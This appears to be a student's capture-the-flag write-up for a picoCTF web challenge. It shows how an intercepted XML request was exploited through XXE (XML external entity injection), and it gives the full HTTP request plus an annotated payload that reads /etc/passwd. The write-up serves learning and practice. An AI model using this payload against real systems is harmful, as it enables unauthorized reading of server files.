



# Payload used:
*Url specified in host, origin & referer has to be changed to your instance

POST /data HTTP/1.1
Host: saturn.picoctf.net:55595
Content-Length: 129
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:55595
Referer: http://saturn.picoctf.net:55595/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
```
# Reasoning: 
Upon opening the page, the page looks pretty blank, no fun login/communication to the server, the details buttons located beneath each of the educational institutions looks like a dead end because all they do is display different data which in any reasonable case would be handled by a local js script.. right??

I proceeded to throw the website into burpsuite proxy > intercept and found a glaring weakness; the text for the special info was being retrived from a server, worse yet, the data requests were being handled with XML.

## How to exploit XML:
Read this!! I literally just learnt what this was!!
[PortSwigger - XXE](https://portswigger.net/web-security/xxe) <br>
XXE (XML external entity injection) exploits how XML processes data, in cases where XML is insecure, you can feed in malicious XML code to get unintended responses.

## Using XML to access files we aren't supposed to!:
```
// Standard XML whatever

<?xml version="1.0" encoding="UTF-8"?>

// This is the part that will retrieve a file from a filepath,
// here we ask for /etc/passwd

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

// Encapsulate &xxe, specifier that gets XML to do what we want it to
// in this case inside of packaging that the server expects 
// (being <data><ID></data></ID>)

<data><ID>&xxe;</ID></data>
```
We can see the packaging expected from the server as its we intercepted it earlier (shown below what I'm looking @)


Look at my ASCII username C:
```
/======================================\\
|| ____                _      ___  _  ||
|||  _ \  __ _ ___ ___| |__  / _ \/ | ||
||| | | |/ _` / __/ __| '_ \| | | | | ||
||| |_| | (_| \__ \__ \ | | | |_| | | ||
|||____/ \__,_|___/___/_| |_|\___/|_| ||
\======================================/
```